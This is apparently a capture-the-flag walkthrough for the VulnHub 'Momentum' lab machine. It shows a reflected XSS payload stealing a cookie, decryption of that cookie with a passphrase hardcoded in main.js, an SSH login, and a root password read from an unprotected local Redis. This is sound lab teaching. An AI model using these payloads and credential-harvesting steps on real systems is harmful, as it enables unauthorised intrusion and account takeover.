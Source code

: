 ```yaml
---
layout: post
title:  "Momentum"
categories: [vulnhub,hackmyvm]
tags: [linux, crypto-js, cookie, redis]
---
```


You’ll find this vm here : `https://www.vulnhub.com/entry/momentum-1,685/`

## Port Scan

```console
22/tcp open  ssh
80/tcp open  http
```

## XSS

```javascript
http://10.0.2.239/opus-details.php?id=<script>alert(document.cookie)</script>
```

Result : `cookie=U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt`

## Read main.js

```javascript
view-source:http://10.0.2.239/js/main.js
```

```javascript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

## Decrypt

First install packages

```
npm install crypto-js
```

```javascript
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt("U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt", "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
```

#### Result

```
┌──(alienum㉿kali)-[~/Desktop]
└─$ node decrypt.js
auxerre-<REMOVED>##
```

## SSH | Guess username

username : `auxerre`
password : `auxerre-<REMOVED>##`

## Redis

```sh
auxerre@Momentum:~$ ss -an | grep 6379
tcp    LISTEN  0    128     127.0.0.1:6379    0.0.0.0:*               
```

#### Finding root password

```sh
auxerre@Momentum:~$ redis-cli
127.0.0.1:6379> KEYS *
1) "rootpass"
127.0.0.1:6379> GET rootpass
"m0mentum-<REMOVED>##"
127.0.0.1:6379>exit
auxerre@Momentum:~$ su root
Password:
root@Momentum:/home/auxerre# cd
root@Momentum:~#
```
